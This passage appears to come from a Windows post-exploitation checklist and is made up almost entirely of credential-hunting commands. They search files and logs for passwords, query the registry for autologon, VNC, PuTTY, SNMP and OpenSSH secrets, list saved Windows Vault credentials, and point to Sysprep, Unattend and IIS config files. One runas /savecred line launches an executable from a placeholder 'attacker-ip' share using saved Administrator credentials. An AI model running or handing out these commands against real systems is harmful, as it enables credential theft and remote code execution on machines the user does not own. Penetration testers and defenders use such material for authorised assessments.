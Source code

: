 	dir /s /b /p *pass* == *cred* == *vnc* == *.config* == *conf* == *ini*
	findstr /si /m password *.xml *.ini *.txt
	```
- [ ] Creds from local DBs
- [ ] Creds from  Windows Vault
	```powershell
	cmdkey /list
	# if found
	runas /savecred /user:WORKGROUP\Administrator "\\attacker-ip\SHARE\welcome.exe"
	```
- [ ] Creds from Registry
	```powershell
	reg query HKLM /f pass /t REG_SZ /s
	reg query HKCU /f pass /t REG_SZ /s
	
	reg query HKLM /f password /t REG_SZ /s
	reg query HKCU /f password /t REG_SZ /s
	
	# Windows Autologin
	reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
	reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
	 
	 # SNMP parameters
	reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
	
	# Putty credentials
	reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
	reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
	
	# VNC credentials
	reg query "HKCU\Software\ORL\WinVNC3\Password"
	reg query "HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4" /v password
	
	## OpenSSH credentials
	reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
	```
- [ ] Creds from Unattend or Sysprep Files
	 ```powershell
	 c:\sysprep.inf
	 c:\sysprep\sysprep.xml
	 %WINDIR%\Panther\Unattend\Unattend*.xml
	 %WINDIR%\Panther\Unattend*.xml
	 ```
- [ ] Creds from Log Files
	```powershell
	dir /s /b /p *access*.log* == *.log
	```
- [ ] Creds from IIS web config
	```powershell
	Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
	Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
		